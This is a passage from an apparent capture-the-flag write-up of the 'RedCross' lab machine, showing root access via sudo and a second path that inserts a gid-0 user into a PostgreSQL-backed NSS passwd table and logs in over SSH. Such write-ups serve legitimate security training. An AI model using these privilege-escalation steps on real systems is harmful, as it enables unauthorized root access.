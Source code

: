     
    
    sud0xdfer@redcross:~$ sudo su
    
    We trust you have received the usual lecture from the local System
    Administrator. It usually boils down to these three things:
    
        #1) Respect the privacy of others.
        #2) Think before you type.
        #3) With great power comes great responsibility.
    
    [sudo] password for sud0xdfer:
    root@redcross:/home/penelope# id
    uid=0(root) gid=0(root) groups=0(root)
    

Get `root.txt`:

    
    
    root@redcross:~# cat root.txt 
    892a1f4d...
    

### Path 2: Via unixnssroot

#### Create User With root Group

I confirmed with the box author that the intended path was as follows.

I’ll create a user just as the previous times with the root group id:

    
    
    unix=> insert into passwd_table (username, passwd, gid, homedir) values ('ro0xdft', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, '/root');
    INSERT 0 1
    

And ssh in:

    
    
    root@kali# ssh ro0xdft@10.10.10.113
    ro0xdft@10.10.10.113's password: 
    Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    ro0xdft@redcross:~$ id
    uid=2024(ro0xdft) gid=0(root) groups=0(root)
    

I have the root group, but I still can’t read `root.txt`, as it’s only
readable to the root user:

    
    
    ro0xdft@redcross:~$ cat root.txt 
    cat: root.txt: Permission denied
    